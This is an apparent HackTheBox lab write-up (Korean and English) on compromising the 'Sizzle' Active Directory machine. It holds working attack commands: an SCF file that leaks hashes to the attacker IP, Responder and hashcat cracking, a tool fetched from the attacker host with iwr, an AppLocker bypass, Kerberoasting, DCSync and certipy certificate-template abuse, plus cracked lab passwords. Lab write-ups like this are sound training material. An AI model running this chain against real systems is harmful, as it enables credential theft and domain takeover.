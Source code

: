 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 CSR 파일 생성
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr

# 그 후 http://10.129.89.62/certsrv/ : amanda : Ashare1972 를 통해 request.csr 업로드 후 cer 다운로드 [사진 참조]
cat request.csr

# 받은 cer로 인증 시도
evil-winrm -S -i 10.129.112.117 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```

![](/assets/images/posts/2025-03-08-Sizzle/3d8b59e04c54f7fa179ee9814a386110_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/d224011add69d27ae61ee3aee5c2a1fc_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/144b5f744e59341ac128e8268ccc74c2_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/8cf46c442ad95dcf7d1e8cd5cd957537_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/02687eaeda255f9a483846f37269bd4d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/4826fff15c51a7fcbd0059136518aa59_MD5.jpeg)
#### WinRM Shell [번외]
```bash
gem install winrm

# winrm_shell.rb 생성
require 'winrm'  
  
#Append necessary changes in winrm_shell.rb  
conn = WinRM::Connection.new(  
endpoint: 'https://10.10.10.103:5986/wsman' ,  
transport: :ssl,  
:client_cert => 'certnew.cer' , # from the server  
:client_key => 'private.key' , # private key  
:no_ssl_peer_verification => true)  
  
command=""  
  
conn.shell(:powershell) do |shell|  
	until command == "exit\n" do  
		output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")  
	print(output.output.chomp)  
		command = gets  
		output = shell.run(command) do |stdout, stderr|  
			STDOUT.print stdout  
			STDERR.print stderr  
		end  
	end  
	puts "Exiting with code #{output.exitcode}"  
end

# 실행
ruby winrm_shell.rb
```
### AppLocker Bypass
.exe, .ps1 등 실행이 안된다면 AppLocker 우회 방법을 통해 우회 시도

```powershell
# 내부적으로 88 port가 열려있음을 알 수 있음 -> 커버로스 관련 공격 가능
netstat -ap tcp

# blocked
iwr -uri http://10.10.14.92:8000/Rebeus.exe -OutFile Rebeus.exe
.\Rebeus.exe

# bypass
# https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
Move-Item -Path C:\Users\amanda\Desktop\Rubeus.exe -Destination C:\Windows\Temp\Rubeus.exe
cd C:\Windows\Temp
.\Rubeus.exe
```

![](assets/images/posts/2025-03-08-Sizzle/33c7c6b55545b8aaef121dcbd2651785_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/d49bb89ba91bb4d4ce46302d97521c9e_MD5.jpeg)
### Rubeus.exe
```powershell
# roasting 시도
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
![](assets/images/posts/2025-03-08-Sizzle/5a76f4478ad69812193c9b1145cc27d1_MD5.jpeg)

### Password Crack
```bash
hashcat -h | grep Kerber
hashcat -m 13100 mrlky.hash /usr/share/wordlists/rockyou.txt

Football#7
```
![](assets/images/posts/2025-03-08-Sizzle/7bf8524e98b4167a2e95ebe5b769832a_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/1e8d922214b3f9119cad72d91c656c92_MD5.jpeg)

### BloodHound
```bash
bloodhound-python -c All -u 'mrlky' -p 'Football#7' -d 'htb.local' -ns 10.129.115.235 --zip
```


### DCSync
```bash
secretsdump.py htb.local/mrlky:Football#7@10.10.10.103
```
## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.112.117 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.112.117 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.112.117 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# 그 후 다시 vuln 조사하면 ESC1이 취약함으로 변경 됨.
# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.112.117 -upn 'Administrator@htb.local'

# in Linux
certpy auth -pfx administrators.pfx -dc-ip 10.129.112.117
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```